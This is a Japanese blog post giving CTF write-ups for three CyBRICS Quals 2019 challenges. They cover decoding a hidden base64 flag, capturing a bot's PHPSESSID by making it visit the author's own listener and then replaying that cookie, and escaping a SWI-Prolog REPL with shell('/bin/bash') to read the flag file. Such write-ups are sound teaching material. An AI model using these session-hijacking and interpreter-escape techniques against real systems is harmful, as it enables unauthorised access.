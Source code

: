 ```yaml
---
layout: post
title: CyBRICS CTF Quals 2019 の write-up
categories: [ctf]
date: 2019-07-22 07:00:00 +0900
---
```


7 月 20 日から 7 月 21 日にかけて開催された [CyBRICS CTF Quals 2019](https://cybrics.net) に、チーム zer0pts として参加しました。最終的にチームで 386 点を獲得し、順位は得点 775 チーム中 69 位でした。うち、私は 3 問を解いて 70 点を入れました。

他のメンバーの write-up はこちら。

- [CyBRICS CTF 2019 Writeup - CTFするぞ](https://ptr-yudai.hatenablog.com/entry/2019/07/21/212133)
- [CyBRICS CTF Quals 2019 Writeup - yoshikingのがんばる日記](https://yoshiking.hatenablog.jp/entry/2019/07/22/183332)

以下、私が解いた問題の writeup です。

## Web
## Warmup (10)
> E_TOO_EASY
> 
> Just get the flag (問題サーバへのリンク)

与えられた URL にアクセスすると、ページのロードが終わった途端に `/final.html` に遷移しました。`/final.html` は普通のテキストのようで、特に気になることはありません。

遷移前のファイルは以下のような内容でした。

```html
<html>
        <script language="JavaScript">
                function func() {
                  document.location.href = 'final.html'
                }
              </script>
<body onload=func()>
︙
```

JavaScript で遷移を行っていることがわかります。

よく見ると、後ろの方に以下のような怪しげなテキストがありました。

```html
︙
Here is your base64-encoded flag: Y3licmljc3s0YjY0NmM3OTg1ZmVjNjE4OWRhZGY4ODIyOTU1YjAzNH0=
</p></body></html>
```

これを Base64 デコードするとフラグが得られました。

```
cybrics{4b646c7985fec6189dadf8822955b034}
```

### Caesaref (50)
> This web resource is highly optimized:
> 
> (URL)

与えられた URL にアクセスすると、以下のようなログインフォームが表示されました。

```html
<head>
    <link rel="stylesheet" href="styles.css">
</head>



    <form name="user" action="/" method="POST">
        <input type="hidden" name="csrf-token" value="5b2dc2536394518d40770a1b9d39548c8c70034fcd604c5a98f6ea329a5006fc">
        username <input type="text" name="user" value=""><br /><br />
        password <input type="password" name="password" value=""><br /><br />
        <input type="submit" name="submit" value="Login">
    </form>
```

適当なユーザ名とパスワードを入力するとログインすることができ、以下のようなフォームが表示されました。

```html
<head>
    <link rel="stylesheet" href="styles.css">
</head>


    <div>
        Hello, aikatsu<br>
        Ask support:
        <form name="support" action="/" method="POST">
            <input type="hidden" name="csrf-token" value="15c1cc4e7e1bcbed356e01f0687077f9b1816bb1008be8630894ef62b3b26b28">
            <input type="text" name="question" value="">
            <input type="submit" name="submit" value="Ask">
        </form>

    </div>
```

適当な文字列を入力すると `Please, attach link to the screenshot or detailed explanation of your issue` と返ってきました。自分が管理しているサーバの 8000 番ポートを開けて待ち受け、この URL を投げてみると以下のような HTTP リクエストがやってきました。

```
GET / HTTP/1.1
Host: (省略)
User-Agent: python-requests/2.18.4
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Cookie: PHPSESSID=blvm4ip4v7ausj15b49bks6qkt
```

なぜ初めての訪問のはずなのに `PHPSESSID` を持っているのでしょうか🤔

**問題サーバで**この `PHPSESSID` をセットし、ページをリロードすると以下のようなフォームが出現しました。

```html
Retrieve the secret flag:
<form name="flag" action="/">
    <input type="hidden" name="csrf-token" value="540fe22fc6b52ea2e471b99c9e7d215e1027e3b054ab2cfc0448cb84c56ba1fe">
    <input type="hidden" name="flag" value="1">
    <input type="submit" value="Show flag">
</form>
```

`Show flag` を押すとフラグが得られました。

```
cybrics{k4Ch3_C4N_83_vuln3R48l3}
```

## CTB
### ProCTF (10)
> We Provide you a Login for your scientific researches. Don't try to find the flag.
> 
> ssh (接続情報)

与えられた SSH の接続情報を使って問題サーバにアクセスすると、以下のような内容が返ってきました。

```
$ ssh (省略)
Welcome to Ubuntu 19.04 (GNU/Linux 5.0.0-15-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Jul 21 21:35:16 UTC 2019

︙


84 updates can be installed immediately.
48 of these updates are security updates.


WARNING: Your kernel does not support swap limit capabilities or the cgroup is not mounted. Memory limited without swap.

?- 
```

私が問題を確認した時点で、[ptr-yudai](https://twitter.com/ptrYudai) さんによってこれは Prolog の処理系の REPL であることがわかっていました。

Ctrl-C を押してみると、以下のようなメッセージが表示されました。

```
WARNING: By typing Control-C twice, you have forced an asynchronous
WARNING: interrupt.  Your only SAFE operations are: c(ontinue), p(id),
WARNING: s(stack) and e(xit).  Notably a(abort) often works, but
WARNING: leaves the system in an UNSTABLE state
```

ググると処理系が [SWI-Prolog](https://www.swi-prolog.org/) であることが推測できます。

OS コマンドを実行できないか `SWI-Prolog shell` でググってみると、[shell/2 という述語](https://www.swi-prolog.org/pldoc/man?predicate=shell/2)が存在していることがわかりました。これでシェルを立ち上げてみましょう。

```
?- shell('/bin/bash').
user@1114f6956902:/$ 
```

立ち上がりました。フラグを探しましょう。

```
user@1114f6956902:/$ pwd
/
user@1114f6956902:/$ ls
bin  boot  dev  etc  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
user@1114f6956902:/$ ls home
user
user@1114f6956902:/$ ls home/user
flag.txt
user@1114f6956902:/$ cat home/user/flag.txt 
cybrics{feeling_like_a_PRO?_that_sounds_LOGical_to_me!____g3t_it?_G37_1T?!?!_ok_N3v3Rm1nd...}
user@1114f6956902:/$ exit
exit
true.
```

フラグが得られました。

```
cybrics{feeling_like_a_PRO?_that_sounds_LOGical_to_me!____g3t_it?_G37_1T?!?!_ok_N3v3Rm1nd...}
```
